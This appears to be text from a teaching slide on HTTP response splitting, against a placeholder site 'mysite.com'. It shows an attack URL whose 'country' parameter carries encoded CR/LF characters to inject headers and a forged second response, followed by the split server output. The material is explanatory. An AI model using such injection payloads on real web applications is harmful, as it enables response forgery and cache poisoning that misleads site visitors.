

# HTTP Response Splitting
Attack Request:
https://mysite.com/index.php?country=ca%0d%0aConnection:%20Keep-Alive%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0a%0aContent-Length:%2020%0d%0a%0d%0a<html>Haha!%20Hacked%20you!</html>

Response:
HTTP/1.1 302 Redirect
Location: https://mysite.com/index.php?country=ca
Connection: Keep-Alive
Content-Length: 0

HTTP/1.0 200 OK
Content-Type: text/html
Content-Length: 30

<html>Haha! Hacked you!</html>Connection: Keep-Alive
Content-Length: 0

Response 1

Response 2